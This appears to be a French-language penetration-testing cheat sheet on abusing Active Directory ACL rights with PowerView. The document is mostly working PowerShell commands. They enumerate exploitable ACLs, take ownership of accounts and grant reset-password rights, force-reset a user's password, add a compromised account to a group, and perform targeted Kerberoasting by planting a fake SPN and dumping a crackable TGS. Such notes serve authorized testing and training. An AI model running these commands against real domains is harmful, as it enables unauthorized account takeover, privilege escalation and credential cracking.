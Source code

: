 ```yaml
---
public: true # set to true to make the article publishable
---
```


## Enumération des ACLs
```powershell
. .\PowerView.ps1
# ACLs intéressantes (très long)
Find-InterestingDomainAcl

# ACLs liées à un compte spécifique ($targetUserName)
$sid = Convert-NameToSid $targetUserName 
# peu prendre beaucoup de temps (plusieures minutes vois dizaines de minutes)
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid} 
```

## Exploitation de privilèges en notre possession

### WriteOwner (appropriation d'un objet)

Permet de s'approprier un objet pour ensuite accéder à ses propriétés et ajouter d'autres ACLs (par exemple l'ajout du droit ForceChangePassword)

```powershell
# Appropriation d'un utilisateur (lorsqu'on a un droit WriteOwner référencé dans Bloodhound)
Set-DomainObjectOwner -Identity $targetUser -OwnerIdentity $compromisedUser
# Ajout d'une ACL sur le compte approprié pour réinitialiser le password :
Add-DomainObjectAcl -TargetIdentity $targetUser -PrincipalIdentity source_user -Rights ResetPassword
```

### ForceChangePassword (modification du mot de passe)
```powershell
# Réinitialisation du password
$pass = ConvertTo-SecureString "P@ssw0rd" -AsPlainText -Force
Set-DomainUserPassword -Identity Target_AD_User -Password $pass
```

### GenericWrite 

Permet :
- l'ajout d'un utitilisateur comme membre d'un groupe sur le quel on dispose de ce droit

```powershell
Add-DomainGroupMember -Identity "Target Group With GenericWrite right" -Members 'compromised'
# Verification
Get-DomainGroupMember -Identity "Target Group With GenericWrite right" | ?{$_.MemberName -eq 'compromised'}
```

### GenericAll

Permet de récupérer le hash du mot de passe d'un utilisateur sur lequel on dispose de ce privilège.
L'attaque se nomme "Targetted Kerberoasting".
Elle conciste en la création d'un SPN sur le compte cible afin de récupérer un TGS à cracker hors ligne.
Si le mot de passe est facile à deviner, on pourra le casser comme dans une attaque de Kerberoasting classique ()
```
#########################################################
# Create fake SPN for targetted user 'adunn' and dump TGS
$targetedUser = 'adunn'
# SPN Creation
Set-DomainObject -Credential $cred_wley -Identity $targetedUser -SET @{serviceprincipalname='nonexistent1/BLAHBLAH'}
# TGS collect
Get-DomainUser $targetedUser | Get-DomainSPNTicket -Credential $cred_wley | fl
# Cleanup
Set-DomainObject -Credential $Cred -Identity $targetedUser -Clear serviceprincipalname



```